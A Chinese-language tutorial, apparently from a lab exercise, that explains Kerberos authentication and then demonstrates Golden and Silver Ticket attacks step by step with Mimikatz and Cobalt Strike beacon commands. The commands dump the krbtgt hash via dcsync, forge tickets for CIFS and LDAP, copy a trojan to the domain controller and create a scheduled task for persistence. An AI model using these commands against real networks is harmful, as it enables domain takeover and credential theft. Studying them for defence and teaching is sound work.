Kerberos的名字源于希腊神话中的三头狗兽——克尔伯洛斯，这只狗兽是冥界的守门者，这也象征了Kerberos协议的安全和防护功能


### Kerberos协议的组成部分

kerberos协议中也存在三个角色，分别是

- 客户端（Client）：角色发起请求的一方。

- 服务端（Server）：角色接收和响应请求的一方。

- 密钥分发中心（Key Distribution Center，KDC）：此角色负责管理和分发密钥，通常被进一步划分为两部分：
  - 认证服务器（Authentication Server，AS）：AS的主要职责是验证客户端的身份，并发放一个特殊的票据，即票据授权票据（Ticket-Granting Ticket，TGT），用于客户端访问票据授予服务器（TGS）。
  - 票据授予服务器（Ticket-Granting Server，TGS）：TGS负责提供认证过程所需的服务授予票据（Service Granting Ticket），以及当客户端需要访问服务端时所需的票据。


### Kerberos协议认证流程

#### 1.客户端与AS进行通信

为了获取访问服务端服务的票据，客户端首先需要请求AS以获得票据授予票据（TGT）。在客户端首次访问AS时，AS无法确认客户端的身份，所以首次通信的目的是让AS验证客户端身份，确认客户端是一个具有访问AS权限的可靠实体。

客户端以明文方式向AS发送请求，请求中包含用户名、主机IP和当前时间戳。AS接收请求后，查询Kerberos认证数据库是否存在该用户。如果用户存在，AS返回响应给客户端，响应包括两部分内容：

- **第一部分：**票据授予票据(TGT)。TGT被用于获取访问网络服务所需的Ticket，TGT中包含的内容有该客户端的Name，IP，当前时间戳，即将访问的TGS的Name，TGT的有效时间，以及一把用于客户端和TGS间进行通信的Session_key(CT_SK)。整个TGT使用TGS密钥加密，客户端无法解密。
- **第二部分：**该部分内容使用客户端密钥加密，包括用于客户端和TGS间通信的Session_key(CT_SK)，客户端即将访问的TGS的Name，TGT的有效时间，和一个当前时间戳。该部分内容使用客户端密钥加密，所以客户端在接收到该部分内容时可以通过自己的密钥进行解密。如果是一个假的客户端，由于他不拥有真正客户端的密钥，因此无法解密这部分内容。

	


#### 2.客户端与TGS进行通信

在收到 AS 的响应并获取两部分内容后，客户端会使用自己的密钥对第二部分内容进行解密，从而得到时间戳、即将访问的 TGS 信息和与 TGS 通信的密钥 (CT_SK)。客户端会检查时间戳，若与发出请求时的时间差超过5分钟，会视为 AS 为伪造并认证失败；若时间戳合理，则准备向 TGS 发起请求。

**客户端的操作：**

- 使用 CT_SK 对包含客户端名、IP 和时间戳的客户端信息进行加密，然后发送给 TGS。
- 以明文形式将希望访问的 Server 服务信息发送给 TGS。
- 将使用 TGS 密钥加密的 TGT 携带给 TGS。

**TGS的操作：**

1. TGS 收到客户端请求后，首先根据客户端明文传输的 Server 服务 IP 检查 Kerberos 系统中是否存在客户端可访问的服务。如果不存在，认证失败并结束。如果存在，继续进行认证。
2. TGS 使用自己的密钥解密 TGT 中的内容，看到 AS 认证并记录的用户信息、Session_KEY（CT_SK）和时间戳，然后根据时间戳判断通信是否真实可靠，是否超出时延。
3. 如果时延正常，TGS 使用 CT_SK 对客户端的另一部分内容进行解密，取出用户信息并与 TGT 中的用户信息进行比对。如果完全相同，认为客户端身份正确，然后继续下一步。
4. 此时，TGS向客户端返回响应，响应内容包括：
   - **第一部分**：使用 Server 密码加密的 ST (Server Ticket)，用于客户端访问网络服务。ST 包含客户端的名字、IP、需访问的网络服务地址（Server IP）、ST 的有效时间、时间戳和用于客户端与服务端通信的 CS_SK (SessionKey)。
   - **第二部分**：使用 CT_SK 加密的内容，包括 CS_SK、时间戳和 ST 的有效时间。因为 AS 在第一次通信过程中已通过客户端密码加密将 CT_SK 传给客户端，客户端解密并缓存了 CT_SK，所以客户端可以自己解密这部分内容。至此，第二次通信完成。

	


#### 3.客户端与服务端进行通信

此阶段，客户端已收到来自 TGS 的响应，它将使用本地缓存的 CT_SK 解密第二部分内容（注意，第一部分内容的 ST 是由 Server 密码加密的，客户端无法解密）。在检查时间戳无误后，客户端取出其中的 CS_SK，准备向服务端发起最后的请求。

当服务端收到客户端的请求，它会使用自己的密钥，即 Server 密钥，对客户端的第二部分内容进行解密，核对时间戳后取出 CS_SK。然后，服务端使用 CS_SK 对客户端发来的第一部分内容进行解密，从而获取经过 TGS 认证的客户端信息。接下来，服务端会将这部分信息和客户端第二部分内容中的自己的信息进行比对，从而确认客户端确实是经过 KDC 认证且具有真实身份的。经过这一系列操作后，服务端确定该客户端是它可以提供服务的对象。

此时，服务端返回一条使用 CS_SK 加密的表示接收请求的响应给客户端。客户端在收到此响应后，使用本地缓存的 CS_SK 进行解密，同时也确认了服务端的身份。


### 黄金票据

#### Krbtgt账户介绍

在Kerberos身份验证协议中，krbtgt（Key Distribution Center Service Account，或称为票据授予票据账户）是一个特殊的账户，它是Kerberos Key Distribution Center（KDC）使用的内置账户，是系统在创建域时自动生成的一个账号

当一个用户（或服务）希望进行身份验证时，他们首先会请求一个称为票据授予票据（Ticket Granting Ticket, TGT）的特殊票据，这个TGT是由KDC生成的，其特性是被krbtgt账户的密钥所加密

	


#### 什么是黄金票据

"黄金票据"（Golden Ticket）是指在Kerberos身份验证协议中，攻击者创建的伪造的票据授予票据（TGT）。这种攻击方式得名于，一旦攻击者拥有了krbtgt（即票据授予服务账户）的密钥，他们就能制造任意TGT，并可以用来伪装任何用户，包括系统管理员，获得网络内任何资源的访问权限。

总结是说，只要获取到了krbtgt的NTLM Hash，就可以伪造TGT

黄金票据攻击的痕迹非常难以追踪，因为攻击者利用的是合法的Kerberos票据，只是票据的来源和真实身份被伪造了。这也是这种攻击手法非常危险的原因。为了防范黄金票据攻击，网络安全的最佳实践是定期更换krbtgt账户的密钥，限制高级权限账户的使用，及时更新系统补丁和安全策略


#### 黄金票据的制作及利用

前提是我们已经获取到了域控主机和域内主机的管理员权限


获取域控管理员的SID：`shell whoami /user`，去掉后面的500, 500表示administrator用户, 即为`S-1-5-21-2756371121-2868759905-385365060`

	


获取krbtgt用户的NTLM HASH: `mimikatz lsadump::dcsync /domain:de1ay.com /user:krbtgt`，此处提取到krbtgt用户的NTLM Hash值为：`82dfc71a72a11ef37d663047bc2088fb`

> `lsadump`是Mimikatz的一个模块，可以从内存或者注册表中提取凭证信息。`dcsync`是这个模块中的一个函数，能够模拟域控制器并请求其他域控制器进行活动目录同步，进而获取用户的NTLM哈希值


此时域控主机突然下线, 我们进入域内主机的beacon会话

列出当前会话指定的票据: `mimikatz kerberos::tgt`或者`shell klist`; 

清除当前会话中的所有kerberos票据: `mimikatz kerberos::purge`或`shell klist`

	


制作黄金票据, 输入上述获取到的数据, 其中用户名可以任意填写：

- 用户：`test`
- 域：`de1ay.com`
- 域SID：`S-1-5-21-2756371121-2868759905-385365060`
- krbtgt哈希：`82dfc71a72a11ef37d663047bc2088fb`

	

	


黄金票据生成后会在beacon命令行界显示制作成功


尝试列出远程计算机的C盘共享目录：`dir \\dc.de1ay.com\c$`，后续可使用`copy`和`schtasks`命令实现权限维持，这里就不演示了

	

​	

### 白银票据

#### 什么是服务账号

在Windows操作系统中，服务账户（也被称为服务用户账户，service user account）是一种特殊的用户账户，主要用于运行操作系统服务或应用程序服务

对于服务的操作，Windows会创建一个特殊的服务账户来执行服务。这些服务账户通常有两种类型：本地系统账户和网络服务账户。对于连接到网络的服务，通常会使用网络服务账户

对于一些具有网络权限的服务，它们可能有一个带有`$`后缀的专用服务账户。这个账户是以"计算机名+`$`"的形式命名的。


#### 什么是白银票据

若说黄金票据是伪造的TGT，那么白银票据就是伪造的ST，在Kerberos协议中，"白银票据"（Silver Ticket）是指服务票据（Service Ticket），这是客户端从票据授予服务（Ticket Granting Service, TGS）获得的，用于向特定服务（如文件服务器、邮件服务器等）验证其身份的凭证

白银票据和黄金票据的主要区别在于其使用范围和权限。一个黄金票据可以用于获取任何服务的票据，即给予了访问任何服务的权限，而白银票据只能用于访问生成该票据时指定的特定服务


#### 白银票据的制作及利用

获取域控服务账号的NTLM HASH：`mimikatz sekurlsa::logonpasswords`，此处为`2883b513481c07b3c2aa8499c697e25d`

	


在域内主机会话输入如下命令制作白银票据

```
mimikatz kerberos::golden /domain:de1ay.com /sid:S-1-5-21-2756371121-2868759905-3853650604
/target:dc.de1ay.com /service:cifs /rc4:2883b513481c07b3c2aa8499c697e25d /user:test /ptt
```

> `/sid`：域控管理员账户的sid
>
> `/target`：指定目标服务主机，即你想访问哪个主机
>
> `/service`：指定目标服务，此处CIFS(Common Internet File System)是一种网络文件共享协议
>
> `/rc4`：RC4加密算法用的密钥，该密钥应该是服务账户的NTLM哈希
>
> `/user`：指定使用这个票据的用户，可任意填写
>
> `/ptt`：将生成的票据直接注入到当前运行的Mimikatz进程

	

由于我们指定了针对文件共享服务的白银票据，因此可使用`dir`命令访问域控的C盘共享

		


"copy"命令也是共享服务的典型例子：`shell copy c:\artifact.exe \\dc.de1ay.com\c$`，将木马发送至域控主机

	


尝试使用`schtasks`在目标系统创建计划任务，但是创建失败了，因为制作的白银票据是针对文件共享服务，而`schtasks`涉及的服务可能是RPC或者WMI

```
shell schtasks /create /s dc.de1ay.com /tn test /sc onstart /tr c:\artifact.exe /ru system /f
```


先清除票据，再制作一个针对LDAP服务的白银票据

> LDAP服务负责处理目录服务请求，包括读取、修改、添加和删除目录对象。LDAP服务的权限非常高，只要有适当的权限，就能获取到存储在 AD 中的各种敏感信息

```
mimikatz kerberos::purge

mimikatz kerberos::golden /domain:de1ay.com /sid:S-1-5-21-2756371121-2868759905-3853650604 /target:dc.de1ay.com /service:LDAP /rc4:2883b513481c07b3c2aa8499c697e25d /user:test /ptt
```


随后即可导出域控的krbtgt用户的NTLM HASH，后续获取到krbtgt的hash后就能制作黄金票据了

> 制作了针对 LDAP 服务的白银票据后，你实际上是获得了对 LDAP 服务的访问权限，这就允许你查询存储在 AD 中的用户信息，包括密码哈希值
>
> 当你执行 `mimikatz lsadump::dcsync` 命令时，你实际上是在请求 AD 域控制器以同步哈希值的方式发送 krbtgt 用户的密码哈希值

```
mimikatz lsadump::dcsync /dc:dc.de1ay.com /domain:de1ay.com /user:krbtgt
```

	


# END
